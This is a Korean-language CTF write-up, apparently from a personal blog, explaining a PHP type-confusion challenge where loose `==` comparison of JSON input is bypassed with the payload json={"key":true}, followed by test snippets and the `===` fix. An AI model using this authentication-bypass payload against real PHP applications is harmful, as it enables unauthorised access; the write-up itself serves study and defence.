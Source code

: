 ```yaml
---
title: "[wargame.kr]php type confusion 문제"
excerpt: "type confusion 을 통해 if 문 인증을 우회할 수 있다."
categories:
    - dreamhack
tags:
    - wargame
    - php
    - type confusion
last_modified_at: 2023-08-27T09:13:00-05:00
---
```

## PHP 형 변환
- [문제](https://dreamhack.io/wargame/challenges/329)
- 서로 비교할 때 비교 각 대상의 타입이 일치하지 않아 발생하는 취약점이다.
- php 의 `==` 을 이용하여 비교를 진행할 때 발생한다.
- json 로 입력을 받을 때 발생할 수 있다.

### 문제 분석
- json 형태로 입력을 받아 디코드 한다.

```php
$json = json_decode($_POST['json']);
```

- json 형태로 넘겨줄 때 공격자는 타입을 정수형 또는 boolean 형 또는 string 형으로 넘겨줄 수 있다.

- 현재 여기서 `==` 을 이용하여 두 개의 값이 같은지만을 확인한다.

```php
if ($json->key == $key)
```

- 즉 자동으로 형 `$key` 값이 앞의 비교하는 형식으로 변환이 되는 취약점을 가지고 있다.


### 테스트

```php
<?php
$a = true;
if ($a == "dsf"){
        echo "true";
}else {
        echo "false";
}
?>
```

- true를 출력하는 것을 확인할 수 있다.<br>![Pasted image 20230827192833](https://user-images.githubusercontent.com/31990118/263522608-064bd56d-02fe-47a1-9dd9-e66fcf4b79b7.png)


```php
<?php
$a = true;
if ($a == ""){
        echo "true";
}else {
        echo "false";
}
?>
```

- false 를 출력하는 것을 확인할 수 있다.<br>![Pasted image 20230827193102](https://user-images.githubusercontent.com/31990118/263522737-f1863132-0b67-47f0-9daa-7be5ecec854e.png)


- 즉 `""` 아무것도 없을 때는 false 로 타입 변환이 일어나고 `"asdf"` 임의의 글자가 있을 때는 true 로 타입 변환이 되는 것을 확인할 수 있다.




### 공격 페이로드

```
json={"key":true}

if($json->key == "xyz") 비교 하면
"xyz" => true 로 형 변환이 일어난다.
```

### 대응 방안

- php 에서 두개의 값을 비교할 때 `==` 을 이용하여 값 만 비교하는 것이 아닌 `===` 을 사용하여 값과 타입을 모두 비교하도록 해주면 된다.

## 참고 사이트
- [php type confusion](https://m.blog.naver.com/wnsdnakdhkd6/221976728186)